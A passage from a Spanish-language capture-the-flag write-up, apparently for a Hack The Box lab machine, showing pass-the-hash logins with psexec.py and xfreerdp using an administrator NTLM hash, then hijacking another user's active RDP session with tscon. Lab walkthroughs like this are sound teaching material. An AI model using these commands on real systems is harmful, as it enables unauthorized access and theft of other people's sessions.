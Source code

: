 ```bash
psexec.py administrator@10.10.10.132 cmd -hashes 'aad3b435b51404eeaad3b435b51404ee:d5312b245d641b3fae0d07493a022622'
```

```py
xfreerdp /v:10.10.10.132:3389 /u:administrator /pth:d5312b245d641b3fae0d07493a022622
```

### RDP hijacking
Nos encontramos con esta sorpresa :heart_eyes:
<img src="/assets/htb/helpline/Pasted image 20211105222706.png">
Esto lo que me hace pensar es que hay otra sesión  de rdp abierta , nos la podemos atachear con la terminal que abrimos antes

```bash
C:\>query session
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE 
>services                                    0  Disc                        
 console           leo                       1  Active                      
 rdp-tcp#5                                   2  ConnQ                       
 rdp-tcp                                 65536  Listen                
```
Existe una session con el usuario leo vamos a robarle la sesion de rdp. Para esto nesecitamos tener la sesion de rdp abierta y hacerlo rapido antes que se nos cierre
```bash
tscon 1 /dest:rdp-tcp#5
```
